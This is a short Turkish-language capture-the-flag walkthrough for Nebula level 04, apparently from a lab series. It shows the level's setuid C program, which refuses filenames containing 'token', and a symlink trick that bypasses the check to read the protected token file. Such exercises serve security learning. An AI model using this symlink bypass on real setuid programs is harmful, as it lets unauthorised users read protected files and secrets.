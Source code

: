 ```bash
ssh level04@192.168.154.137 # [nebulaIP]
```
Bu seviyede aşağıdaki gibi bir kod umuz var bununla token adlı dosyanın içerini okumamızı istiyor. 
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```
Koda gelecek olursak komut satırı argümanı olarak dosya ismi alıyor eğer isim token sa programdan çıkıyor. Seviyede bu durumu atlatıp token ın içeriğini program aracılığıyla okumamızı istiyor.

> programın suid biti atanmış ve token da okuma izni yok.

Bu durumu token ın farklı bir isimde sembolik linkini alarak atlatabiliriz.

```bash
ln -s /home/flag04/token /tmp/t
./flag04 /tmp/t
```

![alt text](nebulaPNG/nebula04.png "nebula04")
